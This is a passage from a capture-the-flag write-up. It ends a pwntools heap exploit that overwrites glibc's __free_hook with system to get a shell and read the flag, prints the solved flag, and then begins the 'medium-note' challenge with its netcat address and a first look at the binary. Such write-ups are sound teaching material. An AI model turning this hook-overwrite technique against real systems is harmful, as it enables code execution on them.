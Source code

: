 ```python

    offset = 40
    payload = flat({
        offset: [
            p64(0x31),
            p64(libc.sym['__free_hook'])
        ]
    })
    edit(2, len(payload), payload)

    alloc(4, 0x20)
    edit(4, 8, b'/bin/sh\x00')

    alloc(5, 0x20)
    edit(5, 8, p64(libc.sym['system']))

    free(4)

    sleep(0.5)
    io.sendline(b'cat flag*')

    info('leak: %#x', main_arena)
    info('libc base: %#x', libc.address)
    io.interactive()
    
if __name__ == '__main__':
    exploit()
```
{% endcode %}

{% hint style="success" %}
**Flag:** _bctf{j33z\_1\_d1dn7\_kn0w\_h34p\_1z\_s0\_easy}_
{% endhint %}

***

## medium-note

### Description

> Mistakes were made last time. It's a note editor FFS, what could possibly go wrong?
>
> `nc gold.b01le.rs 4002`

### Binary Analysis

given a binary, glibc and dockerfile, lets do some footprinting

```bash
└──╼ [★]$ tree .
.
├── chal
├── chal_patched
├── Dockerfile
├── exploit.py
├── flag.txt
├── ld-2.36.so
├── libc-2.36.so.6
├── libc.so.6 -> libc-2.36.so.6
└── test.py

└──╼ [★]$ file chal
chal: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ld-2.36.so, for GNU/Linux 3.2.0, BuildID[sha1]=b2ffef987889d529a7867313c69f6c6b46940ae5, stripped
```